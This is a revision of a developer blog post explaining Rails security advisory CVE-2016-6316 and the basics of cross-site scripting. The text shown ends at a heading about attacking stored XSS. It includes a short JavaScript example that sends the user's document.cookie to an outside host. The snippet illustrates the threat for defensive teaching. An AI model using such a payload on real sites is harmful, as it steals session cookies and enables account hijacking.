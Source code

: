 ```yaml
---
id: 439
title: Do I really need to upgrade my Rails apps? (make more specific to security advisories?)
date: 2016-10-16T13:41:03-04:00
author: Sid
layout: revision
guid: http://ducktypelabs.com/436-revision-v1/
permalink: /436-revision-v1/
---
```

Ruby and Rails security advisories, without exception, recommend that you upgrade your Rails app as soon as possible. If you&#8217;re strapped for time, it&#8217;s a totally understandable tendency to want to postpone upgrades and avoid extra work like fixing breaking tests unless absolutely necessary. Unfortunately, the descriptions of the problem being solved can be cryptic, and it can be hard to assess if you really need to do the upgrade.

In this article, we&#8217;re going to look at Rails &#8216;5.0.0.1/4.2.7.1/3.2.22.3\`, which fixes [CVE-2016-6316](https://groups.google.com/forum/#!topic/rubyonrails-security/I-VWr034ouk). The aim of this article is twofold:

  1. To go over the basics of XSS vulnerabilities, how they can be exploited, and ways to mitigate them. 
  2. To increase your understanding about the specific problem being solved with the Rails `5.0.0.1`/`4.2.7.1` release &#8211; an XSS vulnerability in `ActionView`

## What is an XSS Vulnerability?

&#8220;XSS&#8221; stands for cross-site scripting. When your application has an XSS vulnerability, attackers can run malicious Javascript on your users&#8217; browsers. For example, consider a Javascript snippet like the following:

    var i = new Image;
    i.src = "http://ducktypelabs.com/" + document.cookie;
    

The above snippet, when run on a user&#8217;s browser, will cause the browser to make a request to `ducktypelabs.com` and send over the user&#8217;s cookie. Using this cookie, the attacker can proceed to hijack the user&#8217;s session and gain unauthorized access to secured areas of your app.

## Types of XSS Vulnerabilities

There are three varieties of XSS:

  1. Reflected XSS
  2. Stored XSS
  3. DOM-based XSS

[Read this page for more info on the three types of XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting)

For the purposes of this article, we will focus on Stored XSS, but there are commonalities amongst these.

## How to attack a Stored XSS Vulnerability?
